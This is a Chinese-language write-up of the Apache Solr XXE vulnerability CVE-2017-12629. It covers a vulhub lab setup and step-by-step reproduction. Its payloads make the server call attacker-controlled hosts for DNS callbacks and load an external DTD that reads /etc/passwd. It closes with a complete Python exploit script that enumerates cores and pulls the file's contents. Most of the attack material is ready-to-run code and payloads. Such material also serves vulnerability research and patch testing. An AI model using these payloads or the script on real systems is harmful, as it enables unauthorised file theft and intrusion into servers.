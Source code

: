 # Apache Solr XXE 漏洞 CVE-2017-12629

# Apache Solr XXE 漏洞 CVE-2017-12629

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）。

## 漏洞影响

```
Apache Solr < 7.1
Apache Lucene < 7.
```

## 环境搭建

```plain
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629-XXE
docker-compose build
docker-compose up -d
```

## 漏洞复现

先请求url地址获取 core 内容

http://xxx.xxx.xxx.xxx:8983/solr/admin/cores



![1](/images/202202090051449.png)



访问

```plain
http://xxx.xxx.xxx.xxx:8983/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```

![2](/images/202202090051557.png)

查看dnslog得到请求

![3](/images/202202090051396.png)在自己的服务器上写入一个可访问的XML文件，内容写入

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

然后请求这个文件来读取服务器上的文件

```plain
http://xxx.xxx.xxx.xxx:8983/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fpeiqi.tech%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser

# 解码
/solr/demo/select?&q=<?xml version="1.0" ?><!DOCTYPE root[<!ENTITY % ext SYSTEM "http://peiqi.tech/1.dtd">%ext;%ent;]><r>&data;</r>&wt=xml&defType=xmlparser
```

![4](/images/202202090051367.png)

注意这里的payload进行了url编码,请求的文件为 http://peiqi.tech/1.dtd，有更多需求自行更改写入的xml文件

## 漏洞POC

```
# solr_xxe.dtd

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-

import requests
import sys
import json
import random

def POC_1(target_url):
    core_url = target_url + "solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        print('Core name: ', core_name)
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url):
    dns_payload = """solr/%s/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "%s"><a></a>'}&wt=xml""" % (core_name, dnslog_url)
    vuln_url = target_url + dns_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
        if "HTTP ERROR 500" in response.text:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
        else:
            print("\033[32m[o] 请查看dnslog响应, DNSlog利用Url为：" + vuln_url + "/config\033[0m")
    except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name):
    file_payload = """solr/{}/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fyour.vps.here%2fsolr_xxe.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser""".format(core_name)
    vuln_url = target_url + file_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }

    response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
    if "nologin" in response.text:
        print("\033[32m[o] 漏洞成功利用, Url为：/config\033[0m \n", vuln_url )
        print("\033[32m[o] 响应为: \n \033[0m",response.text)
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)   
    dnslog_url = 'http://{}.your.dnslog.here'.format(core_name)
    POC_2(target_url, core_name, dnslog_url)
    POC_3(target_url, core_name)
```

![image-20220210161443057](/images/202202101614685.png)

